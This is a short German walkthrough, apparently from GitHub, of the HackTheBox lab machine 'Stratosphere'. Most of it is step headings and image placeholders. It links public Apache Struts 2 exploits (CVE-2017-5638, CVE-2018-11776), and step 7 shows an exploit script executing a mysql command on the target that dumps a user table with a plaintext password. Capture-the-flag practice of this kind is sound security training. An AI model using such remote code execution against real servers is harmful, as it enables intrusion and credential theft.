









# 	Stratosphere

 Ein kurzes Tutorial für die Maschine "Stratosphere" von hackthebox.eu

 https://www.hackthebox.eu/home/machines/profile/129

Die Maschine lehrt den Umgang mit NMAP, Exploits und Remote Code Executions

Einschätzung:


 
## Anleitung


 1. NMAP Scan 

    
    


 2. Dirb Scan

    

 3. Besuch auf Port 80 und 8080

    

 4. Besuch in /manager Verzeichnis liefert Hinweise auf Apache Tomcat Server. 

    

 5. Besuch in /Monitoring Verzeichnis

    
    

    Das /Monitoring Verzeichnis verweist auf die URL "http://10.10.10.64:8080/Monitoring/example/Welcome.action", welche weitere Hinweise auf den Verwendeten Service gibt. Die ".action" und ".do" Endungen sind Konventionen von Apache Struts 2. (Siehe https://coderanch.com/t/610334/frameworks/action)

    Auf der Suche nach Sicherheitslücken für Struts 2 wird man sehr schnell fündig.

    "https://medium.com/@lucideus/exploiting-apache-struts2-cve-2017-5638-lucideus-research-83adb9490ede"
    "https://github.com/mazen160/struts-pwn_CVE-2018-11776"

 6. Testen von passendem Exploit über NMAP Vulnerability Scanner

    

 7. Exoloitation
 
    ```bash
    # python strutsrce.py http://10.10.10.64:8080/Monitoring/ 'mysql -u admin -padmin -e "use     users;select * from accounts"'
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: mysql -u admin -padmin -e "use users;select * from accounts"

    fullName        password        username
    Richard F. Smith        9tc*rhKuG5TyXvUJOrE^5CK7k       richard
    ```
    
    
